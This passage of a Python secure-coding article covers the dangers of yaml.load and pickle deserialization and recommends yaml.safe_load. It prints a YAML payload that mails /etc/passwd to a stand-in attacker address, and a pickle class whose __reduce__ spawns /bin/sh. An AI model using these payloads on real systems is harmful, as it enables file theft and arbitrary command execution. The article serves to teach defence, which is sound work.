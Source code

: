 Recent versions of Python will raise a runtime warning if you call the incorrect method.

### Fix:
Use the `tempfile` module and use `mkstemp()` if you need to generate temporary files.

## 7. Using yaml.load

To quote the PyYAML documentation:

<blockquote>
“Warning: It is not safe to call yaml.load with any data received from an untrusted source! yaml.load is as powerful as pickle.load and so may call any Python function.”
</blockquote>

This [beautiful example](https://www.talosintelligence.com/reports/TALOS-2017-0305) found in the popular Python project Ansible. You could provide Ansible Vault with this value as the (valid) YAML. It calls `os.system()` with the arguments provided in the file.

```yaml
!!python/object/apply:os.system ["cat /etc/passwd | mail me@hack.c"]
```

So, effectively loading YAML files from user-provided values leaves you wide-open to attack.

<iframe width="560" height="315" src="https://www.youtube.com/embed/ATY_R6qEa3s?controls=0" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Demo of this in action, credit Anthony Sottile

### Fix:

Use `yaml.safe_load()`, pretty much always unless you have a really good reason.

## 8. Pickles

Deserializing pickle data is just as bad as YAML. Python classes can declare a magic-method called `__reduce__` which returns a string, or a tuple with a callable and the arguments to call when pickling. The attacker can use that to include references to one of the subprocess modules to run arbitrary commands on the host.

This [wonderful example](https://blog.nelhage.com/2011/03/exploiting-pickle/) shows how to pickle a class that opens a shell in Python 2. There are plenty [more examples of how to exploit pickle](https://lincolnloop.com/blog/playing-pickle-security/).

```python
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
```
